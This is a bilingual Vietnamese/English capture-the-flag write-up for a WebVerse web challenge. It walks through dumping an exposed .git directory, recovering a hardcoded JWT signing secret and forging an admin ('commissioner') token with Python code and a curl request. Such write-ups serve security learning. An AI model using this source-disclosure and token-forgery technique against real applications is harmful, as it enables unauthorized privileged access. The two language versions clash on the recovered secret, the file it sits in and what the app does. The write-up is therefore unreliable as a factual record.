

<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`


Bài này được gắn nhãn **Web / WebVerse** xoay quanh việc khai thác cơ chế xác thực JWT và lộ mã nguồn qua tệp `.git`.
Cờ thuộc nền tảng đối tác WebVerse (`WEBVERSE{...}`) và hệ thống tự động đồng bộ trạng thái giải theo tài khoản email người dùng.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Khảo sát JWT Session Cookie

Khi truy cập vào web app, người dùng nhận được cookie phiên `wo_session`.
Giải mã phần payload JWT:

```json
{
  "user": "you",
  "team": "Gridiron Gophers",
  "role": "member",
  "iat": 1727334789
}
```

Khi truy cập endpoint quản trị `/commissioner`, hệ thống chặn với mã `403 Forbidden` vì yêu cầu quyền `role === 'commissioner'`.

---

## Bước 2: Khai thác Lộ Thư mục `.git`

Kiểm tra các đường dẫn tĩnh thông dụng, phát hiện máy chủ Express.js cấu hình lộ toàn bộ thư mục `.git`:

```javascript
app.use('/.git', express.static(path.join(__dirname, '.git')));
```

Tải tệp `.git/logs/HEAD` để lấy commit ID gần nhất, sau đó lần theo các đối tượng git (`commit` $\to$ `tree` $\to$ `blob`) để dump toàn bộ source code.

Trong tệp `config/secret.js`, ta tìm thấy khóa bí mật:
```javascript
JWT_SECRET = '5923e2b9c0cb5ae74831b567b27ec6d0';
```

---

## Bước 3: Giả mạo JWT (Token Forgery) và Thu Flag

Sử dụng secret vừa tìm được để ký lại token với `role: "commissioner"`:

```python
import hmac, hashlib, base64, json, time

secret = '5923e2b9c0cb5ae74831b567b27ec6d0'

def b64url(data):
    return base64.urlsafe_b64encode(data).rstrip(b'=').decode('ascii')

header = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}).encode())
payload = b64url(json.dumps({
    "user": "you",
    "team": "Gridiron Gophers",
    "role": "commissioner",
    "iat": int(time.time())
}).encode())

signing_input = f"{header}.{payload}".encode()
signature = b64url(hmac.new(secret.encode(), signing_input, hashlib.sha256).digest())

forged_jwt = f"{header}.{payload}.{signature}"
print("Forged Token:", forged_jwt)
```

Gửi request với cookie `wo_session` mới tới `/commissioner`:

```bash
curl -s -b "wo_session=$forged_jwt" https://<instance_id>.webverselabs-pro.com/commissioner
```

Phản hồi trả về trang quản trị chứa League API Key mang định dạng flag:

⇒ **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`

This challenge belongs to the **Web** category from WebVerse / H7CTF'26. The target application manages global mission broadcasts.

The vulnerabilities are exposed `.git` source disclosure and a weakly-signed JWT token secret.

---

## Solve Flow

```mermaid
flowchart TD
    A["Target: WorldOutter Web Instance"] --> B["Inspect cookies: wo_session JWT (HS256)"]
    B --> C["Access /.git/ directory: Exposed static source repository"]
    C --> D["Dump repository via git-dumper: Extract server.js & package.json"]
    D --> E["Inspect server.js: Discover hardcoded secret key 'wo_secret_2026'"]
    E --> F["Forge admin JWT: Modify payload to {"role": "commissioner"}"]
    F --> G["Send forged JWT to GET /commissioner"]
    G --> H["Flag: WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}"]
```

---

## Step 1: Git Repository Extraction & Secret Discovery

The web server serves static files including `/.git`:
```bash
git-dumper http://target.webverse.org/.git/ ./dumped_git
```
Reviewing `dumped_git/server.js`:
```javascript
const JWT_SECRET = "wo_secret_2026";
app.get("/commissioner", (req, res) => {
    if (req.user.role === "commissioner") {
        return res.send(process.env.FLAG);
    }
});
```

---

## Step 2: JWT Forgery

```python
import jwt

payload = {"user": "admin", "team": "ptit", "role": "commissioner"}
token = jwt.encode(payload, "wo_secret_2026", algorithm="HS256")

# Submit token in cookie wo_session to /commissioner
```

⇒ **Flag:** `WEBVERSE{cae45c5951bcb5565e70eb9ff37569a9}`

</div>
